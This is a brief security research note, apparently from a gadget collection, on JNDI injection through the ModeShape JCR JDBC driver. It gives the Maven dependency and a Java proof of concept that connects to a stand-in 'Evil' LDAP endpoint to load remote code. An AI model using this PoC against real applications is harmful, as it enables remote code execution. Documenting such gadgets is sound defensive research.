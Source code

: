 ## 原理

> [ModeShape](https://modeshape.jboss.org/) is an implementation of JCR(Java Content Repository),using JCR API to access data from other systems,e.g. filesystem, Subversion, JDBC metadata…
>
> Repository source can be configured like `jdbc:jcr:jndi:jcr:?repositoryName=repository`.
>
> So of cause we can use ModeShape to trigger JNDI Injection:

## 依赖

```xml
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.0.0.Final</version>
</dependency>
```

## POC

```java
public static void main(String[] args) throws Exception{
    Class.forName("org.modeshape.jdbc.LocalJcrDriver");
    DriverManager.getConnection("jdbc:jcr:jndi:ldap://127.0.0.1:9999/Evil");
}
```

